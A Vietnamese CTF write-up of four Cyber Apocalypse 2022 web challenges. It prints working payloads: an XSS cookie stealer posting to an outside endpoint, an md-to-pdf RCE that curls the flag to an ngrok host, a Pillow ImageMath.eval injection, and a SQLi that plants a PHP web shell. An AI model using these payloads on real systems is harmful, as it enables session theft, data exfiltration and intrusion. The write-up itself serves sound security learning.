

# Cyber Apocalypse CTF 2022

# **Kryptos Support**

Website cho phép ta gửi report cho admin



Thử gửi payload XSS đơn giản

```jsx
<script>
fetch('https://eoor1c6mm76wo38.m.pipedream.net/?'+document.cookie)
</script>
```

Nhận thấy ở endpoint ta đã có cookie session của admin.


Dùng dirsearch ta có page `/admin`


Thêm cookie ta vừa lấy được vào và truy cập `/admin`, ta được redirect về `/tickets`


Góc trên trái có phần `Setting`, truy cập vào ta được page đổi password (nhưng không cần password cũ)


Xem request gửi lên, thấy có param `uid`


Thử từng `uid`, thấy `uid=1` ta đã đổi ngay được tài khoản của admin.


Login vào user `admin` với password ta vừa đổi


<aside>
🚩 HTB{x55_4nd_id0rs_ar3_fun!!}

</aside>

# **BlinkerFluids**

Website cho phép ta tạo file PDF từ cú pháp của Markdown


Sau một hồi tìm hiểu, mình phát hiện phiên bản `md-to-pdf` `4.1.0` có lỗi RCE: [https://github.com/simonhaenisch/md-to-pdf/issues/99](https://github.com/simonhaenisch/md-to-pdf/issues/99)

Craft payload để thực hiện OOB đọc flag (ta có thể dùng `curl` do trong `Dockerfile` có cài đặt cả `curl`.

```markdown
---js
((require("child_process")).execSync("curl http://13c6-2402-800-61ae-c62f-a5a4-2b2-9fb1-5177.ngrok.io/?a=$(cat /flag.txt | base64)"))
---
RCE
```


<aside>
🚩 HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}

</aside>

# **Amidst Us**

Đập vào mặt ta là một trang web khá sú. Sau một hồi test chức năng thì có vẻ website này cho phép ta blend màu cho ảnh được upload lên.


Tìm thử version `8.4.0` của thư viện `PIL`, mình thấy có CVE hồi tháng 1/2022 [https://github.com/python-pillow/Pillow/pull/5923](https://github.com/python-pillow/Pillow/pull/5923)

Như vậy ta có thể thực hiện RCE thông qua hàm `ImageMath.eval()`. Trùng hợp thay trong challenge này cũng sử dụng hàm đó.


Exploit thôi nào!

Craft payload để copy file `flag.txt` vào folder `static`

```python
225),\n\t\t\t\t\texec(\"import os\\nos.popen(f'cp /flag.txt ./application/static/flag1.txt')\"
```

Gửi payload


Bonus: payload sau khi lên server sẽ như này


Qua `/static/flag1.txt` để đọc flag


<aside>
💡 HTB{i_slept_my_way_to_rce}

</aside>

# **Intergalactic Post**

Website này cho ta post địa email lên


Đọc source code dễ nhận thấy challenge này sẽ về SQLi do phần insert email vào database không có phương thức nào chống SQLi

```php
public function subscribeUser($ip_address, $email)
{
    return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
}
```

Param `email` sau khi được post lên sẽ được check cú pháp → khó để thực hiện SQLi ở param này.

```php
public function store($router)
{
    $email = $_POST['email'];

    if (empty($email) || !filter_var($email, FILTER_VALIDATE_EMAIL)) {
        header('Location: /?success=false&msg=Please submit a valild email address!');
        exit;
    }

    $subscriber = new SubscriberModel;
    $subscriber->subscribe($email);

    header('Location: /?success=true&msg=Email subscribed successfully!');
    exit;
}
```

Tuy nhiên, website còn thêm `ip_address` vào database, trong đó địa chỉ IP có thể lấy từ header `X-Forwarded-For` do ta toàn quyền kiểm soát → ta sẽ thực hiện SQLi ở đây

```php
public function getSubscriberIP()
{
    if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)) {
        return $_SERVER["HTTP_X_FORWARDED_FOR"];
    } else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
        return $_SERVER["REMOTE_ADDR"];
    } else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
        return $_SERVER["HTTP_CLIENT_IP"];
    }
    return '';
}

public function subscribe($email)
{
    $ip_address = $this->getSubscriberIP();
    return $this->database->subscribeUser($ip_address, $email);
}
```

Payload để thực hiện SQLi to RCE

```sql
a','a'); ATTACH DATABASE '/www/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

Gửi payload


Truy cập file php ta vừa tạo để thực hiện RCE list file trong thư mục `/`


Đọc flag


<aside>
🚩 HTB{inj3ct3d_th3_tru7h}

</aside>